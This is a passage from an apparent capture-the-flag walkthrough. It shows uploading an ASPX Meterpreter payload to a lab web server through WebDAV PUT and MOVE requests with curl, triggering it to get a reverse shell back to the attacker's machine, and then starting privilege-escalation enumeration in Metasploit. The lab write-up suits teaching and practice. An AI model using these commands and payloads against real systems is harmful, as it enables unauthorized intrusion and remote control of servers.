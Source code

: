 I'll upload again, this time using `--data-binary` to preserve endlines
and other control characters:



    root@kali# curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 



On refreshing `met.txt`, I see it looks much cleaner:

![](/img/1551910418743.png)

Now I'll move the file and trigger it:



    root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt 
    root@kali# curl http://10.10.10.15/met.aspx



And get a shell:



    [*] Sending stage (179779 bytes) to 10.10.10.15
    [*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2019-03-06 17:05:07 -0500

    meterpreter >



## Privesc to System

### Enumeration

On those older boxes, I am more likely to checkout local exploits, and
Metasploit has a nice module for that,
`post/multi/recon/local_exploit_suggester`:



    meterpreter > background
    [*] Backgrounding session 1...
    msf5 exploit(multi/handler) > search local_exploit
